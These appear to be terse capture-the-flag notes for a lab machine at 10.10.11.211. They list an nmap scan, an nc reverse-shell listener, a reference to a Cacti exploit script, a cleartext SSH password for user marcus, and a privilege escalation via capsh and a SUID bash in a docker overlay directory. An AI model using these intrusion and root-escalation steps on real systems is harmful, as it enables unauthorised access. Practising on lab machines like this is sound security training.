 sudo nmap --min-rate 444 -Pn -sC -sV

nano /etc/hosts

  

[cacti.py](http://cacti.py)

nc -nvlp 4444

/sbin/capsh --gid=0 --uid=0 --

whoami

  

  

  

funkymonkey

ssh marcus@10.10.11.211

df -h

cd /var/lib/docker/overlay2/c4..../merged/bin   

  

[Go Back to root from python] ls -lah bash    (should see -rwxr) THEN chmod u+s bash THEN ls -lah bash (should see -rwsr)

  

SSH SCREEN              ./bash -p

cd /root

ls -lah root.txt

id